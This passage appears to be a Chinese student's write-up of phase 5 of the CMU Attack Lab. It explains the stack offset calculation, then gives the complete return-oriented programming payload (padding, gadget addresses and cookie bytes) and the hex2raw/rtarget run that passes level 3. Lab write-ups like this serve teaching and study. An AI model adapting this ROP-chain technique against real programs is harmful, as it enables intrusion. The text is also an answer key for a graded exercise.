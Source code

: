 由于 `movq %rsp, %rax` 执行完之后去掉 `pop` 语句还有9句话才到cookie，因此offset为 `8*9=72=0x48`。

构造攻击代码 `phase5.txt` 如下：

```text
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
b4 1a 40 00 00 00 00 00
f4 19 40 00 00 00 00 00
fe 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
2e 1a 40 00 00 00 00 00
9f 1a 40 00 00 00 00 00
49 1a 40 00 00 00 00 00
21 1a 40 00 00 00 00 00
f4 19 40 00 00 00 00 00
48 19 40 00 00 00 00 00
34 37 64 62 34 65 33 61
```

含义如前所述。

使用命令 `./hex2raw < phase5.txt > 2016011446.rtarget.l2; ./rtarget -q -i 2016011446.rtarget.l2` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase5.txt > 2016011446.rtarget.l2; ./rtarget -q -i 2016011446.rtarget.l2
Cookie: 0x47db4e3a
Touch3!: You called touch3("47db4e3a")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:rtarget:3:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 B4 1A 40 00 00 00 00 00 F4 19 40 00 00 00 00 00 FE 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 2E 1A 40 00 00 00 00 00 9F 1A 40 00 00 00 00 00 49 1A 40 00 00 00 00 00 21 1A 40 00 00 00 00 00 F4 19 40 00 00 00 00 00 48 19 40 00 00 00 00 00 34 37 64 62 34 65 33 61 
```

![](phase5.png)
